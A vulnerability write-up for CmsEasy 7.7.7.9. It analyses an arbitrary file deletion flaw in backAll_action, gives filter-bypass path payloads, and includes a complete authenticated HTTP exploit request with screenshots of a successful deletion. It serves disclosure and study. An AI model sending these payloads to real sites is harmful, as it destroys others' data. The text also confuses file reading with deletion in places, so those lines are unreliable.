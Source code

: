 # CmsEasy-V7.7.7.9 20240105-Directory Traversal



## Introduce

CmsEasy has a directory traversal vulnerability in `lib/admin/database_admin.php` that allows arbitrary file deletion. Attackers can exploit this vulnerability to traverse directories and delete arbitrary files.



## Analyze

In the `lib/admin/database_admin.php` file, due to insufficient filtering in the `backAll_action` function, directory traversal leads to arbitrary file deletion.

![image-20250123005104482](/assest/cmseasy/cmseasy-1.png)



```php
 function backAll_action(){
        $dir=ROOT.'/data/backup-website';
        if(front::post('submit') &&is_array(front::post('select'))) {
            foreach(front::post('select') as $d) {
                $d = str_replace('#', '', $d);
                $d = str_replace('../', '', $d);
                $d = str_replace('./', '', $d);
                @unlink($dir.'/'.$d);
            }
            front::flash(lang_admin('success').lang_admin('delete').count(front::post('select')).lang_admin('individual').lang_admin('archives').'！');
        }
        $dirs=front::scan($dir);
        $db_dirs=array();
        foreach($dirs as $dir) {
            if(!preg_match('/\.\./',$dir)) $db_dirs[]=service::lockString($dir);
        }
        //var_dump($db_dirs);
        $this->view->db_dirs=$db_dirs;
    }
```

The `front::post` method is equivalent to `$_POST`.

It can be observed that the dangerous function `unlink` is used.
Additionally, the parameter `select` is controllable (an array).

```php
foreach(front::post('select') as $d) {
                $d = str_replace('#', '', $d);
                $d = str_replace('../', '', $d);
                $d = str_replace('./', '', $d);
                @unlink($dir.'/'.$d);
            }
```

Through analysis and filtering, it can be concluded that developers want to avoid arbitrary file reading vulnerabilities caused by path traversal.

However, an attacker can use filter conditions to construct content to achieve arbitrary file reading.

```

Bypass Method 1:
.....///.....///
=>
../../


Bypass Method 2:  # Utilize Windows parsing characteristics (this method only works on Windows).
..\\..\\
```



## Exploit

```http
POST /index.php?case=database&act=backAll&admin_dir=admin&site=default HTTP/1.1
Host: 192.168.0.104:5678
Content-Length: 38
Cache-Control: max-age=0
Origin: http://192.168.0.104:5678
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:5678/index.php?case=admin&act=login&admin_dir=admin&site=default
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-fetch-site: same-origin
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
cookie: loginfalse74c6352c5a281ec5947783b8a186e225=6; PHPSESSID=73sf2og6s5l9qp6507aeofvp19; allowdown=985f28e9d3af52c829b07a025282006b; login_username=admin; login_password=yxx2O2HvK1vseDc6d%253DMBgleqHCHKdC%253DocDZ%253DK%253DMuLxOuV2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive

submit=1&select[]=.....///.....///test.txt
```



Create `1.txt` file to test.

![image-20250123010305574](/assest/cmseasy/cmseasy-2.png)



Send the exploit (constructing two levels up in the directory because the trigger point is located in `lib/admin/database_admin.php`).  The response "Template does not exist" is displayed normally, but the deletion was actually successful.

![image-20250123010228909](/assest/cmseasy/cmseasy-3.png)



The file can be seen to have been deleted.

![image-20250123010334583](/assest/cmseasy/cmseasy-4.png)

